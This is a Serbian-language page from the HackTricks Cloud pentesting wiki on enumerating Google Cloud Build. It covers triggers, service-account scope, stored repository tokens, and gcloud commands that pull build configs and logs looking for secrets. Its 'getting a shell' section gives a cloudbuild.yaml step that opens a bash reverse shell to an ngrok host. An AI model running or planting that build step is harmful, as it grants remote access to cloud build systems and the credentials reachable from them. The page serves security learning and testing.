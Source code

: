 # GCP - Cloud Build Enum

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Google Cloud Build je upravljana CI/CD platforma koja **automatizuje procese izgradnje softvera** i puštanja u rad, integrišući se sa **repozitorijumima izvornog koda** i podržavajući širok spektar programskih jezika. Omogućava programerima da **automatski izgrade, testiraju i implementiraju kod** pružajući fleksibilnost za prilagođavanje koraka izgradnje i radnih tokova.

Svaki Cloud Build okidač je **povezan sa Cloud repozitorijumom ili direktno povezan sa spoljnim repozitorijumom** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nisam mogao da vidim način da ukradem Github/Bitbucket token odavde ili iz Cloud repozitorijuma jer kada se repozitorijum preuzme, pristupa se preko [https://source.cloud.google.com/](https://source.cloud.google.com/) URL-a i Github nije pristupačan klijentu.
{% endhint %}

### Događaji

Cloud Build može biti okidač ako:

* **Pritisak na granu**: Navedite granu
* **Pritisak novog taga**: Navedite tag
* **Pull zahtev**: Navedite granu koja prima PR
* **Ručno pozivanje**
* **Pub/Sub poruka**: Navedite temu
* **Webhook događaj**: Izložiće HTTPS URL i zahtev mora biti autentifikovan sa tajnom

### Izvršenje

Postoje 3 opcije:

* Yaml/json **specifikacija komandi** za izvršenje. Obično: `/cloudbuild.yaml`
* Jedna koja se može specificirati "inline" u web konzoli i u CLI
* Najčešća opcija
* Relevantna za neautentifikovan pristup
* **Dockerfile** za izgradnju
* **Buildpack** za izgradnju

### Dozvole SA

**Servisni nalog ima `cloud-platform` opseg**, tako da može **koristiti sve privilegije.** Ako **nije specificiran SA** (kao kada se vrši podnošenje) **podrazumevani SA** `<proj-broj>@cloudbuild.gserviceaccount.com` će biti **korišćen.**

Podrazumevano nisu date nikakve dozvole, ali je prilično lako dati neke:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Odobrenja

Moguće je konfigurisati Cloud Build da **zahteva odobrenja za izvršenje izgradnje** (podrazumevano onemogućeno).

### PR Odobrenja

Kada je okidač PR jer **svako može izvršiti PR na javne repozitorijume** bilo bi veoma opasno dozvoliti izvršenje okidača sa bilo kojim PR-om. Stoga, podrazumevano, izvršenje će biti **automatsko samo za vlasnike i saradnike**, i kako bi se izvršio okidač sa PR-ovima drugih korisnika, vlasnik ili saradnik mora komentarisati `/gcbrun`.

<figure><img src="../../../.gitbook/assets/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Povezivanja & Repozitorijumi

Povezivanja se mogu kreirati preko:

* **GitHub-a**: Prikazaće OAuth prozor zahtevajući dozvole za **dobijanje Github tokena** koji će biti sačuvan unutar **Menadžera tajni.**
* **GitHub Enterprise-a**: Zatražiće instalaciju **GithubApp**-a. Autentifikacioni token sa vašeg GitHub Enterprise hosta će biti kreiran i sačuvan u ovom projektu kao tajna **Menadžera tajni.**
* **GitLab-a / Enterprise-a**: Potrebno je **pružiti API pristupni token i čitati API pristupni token** koji će biti sačuvani u **Menadžeru tajni.**

Kada se generiše veza, možete je koristiti da **povežete repozitorijume kojima Github nalog ima pristup**.

Ova opcija je dostupna putem dugmeta:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Imajte na umu da su repozitorijumi povezani ovim metodom **dostupni samo u okidačima koji koriste 2. generaciju.**
{% endhint %}

### Poveži Repozitorijum

Ovo nije isto kao **`povezivanje`**. Ovo omogućava **različite** načine za **pristup Github ili Bitbucket** repozitorijumu ali **ne generiše objekat povezivanja, već generiše objekat repozitorijuma (prve generacije).**

Ova opcija je dostupna putem dugmeta:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Skladištenje

Ponekad će Cloud Build **generisati novo skladište za čuvanje datoteka za okidač**. To se na primer dešava u primeru koji GCP nudi sa:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Kreiran je skladišni bucket pod nazivom [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) kako bi se čuvala `.tgz` datoteka sa fajlovima koji će biti korišćeni.

### Dobijanje shell-a
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Instalirajte gcloud unutar Cloud Build-a:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeracija

Možete pronaći **osetljive informacije u konfiguracijama izgradnje i zapisnicima**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacija privilegija

{% content-ref url="../gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Neautentifikovan pristup

{% content-ref url="../gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post eksploatacija

{% content-ref url="../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
